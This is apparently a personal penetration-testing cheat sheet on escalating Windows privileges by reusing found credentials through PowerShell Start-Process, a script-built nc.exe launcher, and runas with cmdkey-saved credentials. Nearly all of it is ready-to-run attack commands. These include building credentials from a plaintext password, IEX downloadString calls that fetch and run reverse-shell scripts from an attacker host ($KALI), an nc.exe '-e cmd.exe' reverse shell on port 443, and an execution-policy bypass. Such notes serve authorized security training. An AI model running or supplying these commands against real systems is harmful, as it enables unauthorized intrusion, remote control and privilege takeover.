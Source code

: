 ```yaml
---
category: Uncategorized
tags: []
---
```

####  RunAs via PowerShell (Requires creds)
**Method1**
Attempting to re-use a found password with the Administrator account can be achieved using PowerShell:

![[Pasted image 20220926193742.png]]

```Powershell - target
$passwd = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force;$creds = New-Object System.Management.Automation.PSCredential('administrator' $passwd)
```

will store the credentials in `$creds` for the session. 

A reverse shell can now be opened with the supplied credentials using the command:

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[rlwrap]]

```powershell
Start-Process -FilePath "powershell" -argumentlist "IEX(New-Object Net.webClient).downloadString('http://$KALI/Shelly.ps1')" -Credential $creds
```

**Method2**


Say we already have Alice's (Local Admin member) password, we can execute cmd as her.

[[rlwrap]]

```powershell - target
echo $username = 'alice' > startprocess.ps1
```

```powershell - target
echo $password = '$PASSWORD' >> startprocess.ps1
```

```powershell - target
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
```

```powershell - target
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
```

Transfer over nc.exe
```bash - kali
cp /usr/share/windows-resources/binaries/nc.exe .
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

[[4._File Transfers]]

```
echo $KALI
```

==REPLACE $KALI WITH YOUR IP!==
```command prompt - target
echo Start-Process 'C:\Users\$USER\AppData\Local\Temp\nc.exe' -ArgumentList '-e C:\Windows\System32\cmd.exe $KALI 443' -Credential $credential >> startprocess.ps1
```

```command prompt - target
powershell.exe Get-ExecutionPolicy -Scope CurrentUser
```

```command prompt - target
powershell.exe Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

```command prompt - target
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File startprocess.ps1
```

#### RunAs via cmdkey
```command prompt - windows
cmdkey /list
```

![[Pasted image 20220206132243.png]]

![[1._Reverse Shells (WIN)#Invoke-Powershell ps1]]

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

![[rlwrap]]

```command prompt - target
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://$KALI/Invoke-PowerShellTcp.ps1')"
```

